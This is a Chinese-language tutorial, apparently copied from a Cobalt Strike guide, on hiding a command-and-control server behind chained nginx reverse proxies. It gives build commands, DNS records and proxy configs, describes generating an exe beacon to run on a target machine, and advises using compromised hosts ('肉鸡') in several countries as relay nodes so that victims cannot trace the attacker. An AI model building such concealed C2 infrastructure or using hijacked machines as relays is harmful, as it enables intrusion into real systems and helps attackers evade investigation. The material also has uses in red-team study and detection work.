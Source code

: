 # 尝试将 C2 隐匿于多级 nginx 反向代理

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/32.html](http://book.iwonder.run/Tools/Cobalt Strike/32.html)

## 关于利用多级 nginx 反代实现 beacon 上线的大致思路拓扑

![image](img/ae55aff42cca846c3348b5df3157dccd.png)

> 大致思路是这样,首先,我们会用一个 CS 的外部 http 监听器先把流量弹到第一层的 nginx 反代理节点上,因为事先已经在 mail 这台机器上做好了反代配置,而这个反代配置里实际指向的是我们第二层 nginx 反代节点的域名,所以当回连的流量一过来就会直接被抛到第二层的 nginx 反代节点上,由于又事先在第二层反代节点上也做好了反代配置,不过这次配置里指向的并不是别的地方,而是我们真实的 C2 服务器域名,所以最终导致的结果就是,目标机器回连流量在通过众多的 nginx 反代节点之后正常上线,大家自己实际操作过程中,务必要先对着拓扑理解清楚再动手,不然你可能会觉得有些乱,其实,说实话,没啥技术含量,完全都是些基础的堆砌加灵活应用而已,来看实际操作吧

### 0x01 首先,同时在两台 nginx 反代节点的 vps 机器上编译安装好 nginx,过程非常简单,如下

```
# apt-get install build-essential libtool libpcre3 libpcre3-dev zlib1g-dev openssl -y
# useradd -s /sbin/nologin -M nginx 切记不要以高权限起服务
# wget http://nginx.org/download/nginx-1.14.1.tar.gz
# tar xf nginx-1.14.1.tar.gz
# cd nginx-1.14.1
# ./configure --prefix=/usr/local/nginx-1.14.1 --user=nginx --group=nginx --with-http_ssl_module --with-http_stub_status_module --with-http_gzip_static_module
# make && make install
# echo $? 
```

![image](img/7aeac5d96770a7a172f589bdec232026.png)

![image](img/76fa32480b6d386460343ca39c33cc05.png)

### 0x02 接着,再回到自己本地的 linux 机器上

> 启动 CobalStrike 客户端,连到自己的 C2 服务器,然后创建两个 常规 HTTP 协议,端口为 80 [ 注: 两个监听器的协议必须匹配 ] 的监听器,一个就是反向监听器 [ 特别注意下这个反连域名,是真正的 C2 服务器域名,即 oa.finalc2.com,也就是等会儿要从第二层 nginx 反代节点往后抛的域名 ]

![image](img/4abeb440255b993f79db3d67fdea7c8b.png)

另外再创建一个相同协议端口的外部监听器,注意,这个外部监听器的回连域名要写第一层 nginx 反代节点的域名[ 即 mail.first.com ],因为回连的流量会首先被弹到这里,然后再通过层层反代直至抛到后端真实的 C2 服务器,最后,再用这个外部监听器创建一个 exe payload,等会儿要把它丢到目标机器执行

![image](img/3996659b74679fbdc836d9a4a37e38ca.png)

> 如下,两个监听器准备就绪

![image](img/a3112b5e66fc094868ed683f405dbc0e.png)

### 0x03 由于此处全程都是用域名在操作,所以务必请提前配置好所有域名解析,只需添加一条对应的 A 记录 即可

```
mail.first.com 21.67.38.47 
```

![image](img/f44742113e4bf49e66b4fb4468587806.png)

```
host.second.com 187.50.112.135 
```

![image](img/9233acb8f9926e2525e45964c35f68da.png)

```
oa.finalc2.com 208.36.69.66 
```

![image](img/169d03210243429556ec08dca0c65673.png)

### 0x04 开始配置第一层 nginx 反代节点

也就是在 21.67.38.47 这台机器上,配置过程非常简单,如下

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

 upstream default_pools{
 server host.second.com:80; 到达本机的所有 80 端口的流量都会被后抛到这个域名上
 }

 server {
 listen 80;
 server_name host.second.com;
 location / {
 proxy_pass http://default_pools;
}
 }
} 
```

> 配置完成后,务必要记得立即重启 nginx 服务使配置生效

```
# ifconfig | grep 'inet addr'
# /usr/local/nginx/sbin/nginx -s quit
# /usr/local/nginx/sbin/nginx 
```

![image](img/6ae69b1f588d5fba9700b1475620576e.png)

### 0x05 开始配置第二层 nginx 反代节点

> 也就是在 187.50.112.135 这台机器上,过程基本同上,只不过这次是把流量直接抛给了后端的真实 C2 服务器

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

 upstream default_pools{
 server oa.finalc2.com:80; 真实 C2 域名
 }

 server {
 listen 80;
 server_name oa.finalc2.com;
 location / {
 proxy_pass http://default_pools;
}
 }
} 
```

> 之后,同样务必要记得立即重启 nginx 服务使配置生效

![image](img/6caceff8415c445c61983b25fde93cb6.png)

> 此时,当我们回到目标机器上正常执行 payload 后,便会看到 beacon 正常上线,如下,从目标机器的网络连接中也不难发现,其实,这个连接显示的 ip 也只是我们上面第一层 nginx 反代节点的 ip,而真实的 C2 服务器却被隐藏在了后端好几层,再加上如果中间的 nginx 反代节点全部都是直接拿不同国家地域的肉鸡搞的[高度匿名化],这无疑再一次加大了对方的溯源难度和成本

![image](img/7734b28f29e3dd405794601374c4f70b.png)

> 另外,从 CS web log 里我们也清晰的看到,所有请求都是从 187.50.112.135 [即 host.second.com 第二层 nginx 反代节点 ]这台机器过来的,至此,也说明我们的多级反代确实是成功有效的

![image](img/3f2af70f0aec29435241356de26103aa.png)

## 小结:

至此为止,关于如何利用多级 nginx 反代,来实现 C2 的深度隐藏基本也就说完了,多次实战检验,传输确实挺稳定的,说实话,没太多技术含量,还是那句话,都是些非常简单的基础配合利用,文章初衷也是为了给弟兄们提供一个简单易用的 demo,其实,在实战中,你完全可以把这个搞的非常的复杂,比如,利用一些比较稳定的肉鸡群做成一个非常庞大的全球反代网,这些就要靠弟兄们自己思考了,ok,再多的就不说了,其实话说到这儿,理解的弟兄,应该也都早已经理解了,不过退一步来讲,这样隐藏 C2 其实还是不够彻底,因为,毕竟我们此时的 C2 还是直接被暴露在公网中,既然是在公网,那就肯定有被扫到或者反捅的风险,比如,你的 C2 直接用的 CobaltStrike 这种东西来搞的,万一哪天 CS 再爆洞,你可能又是第一批受害者,所以...弟兄们应该都能理解了,在下个章节中我们将会简单介绍,如何用避免直接把 C2 暴露在公网中的方式去隐藏,并实现本地 beacon 上线,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运

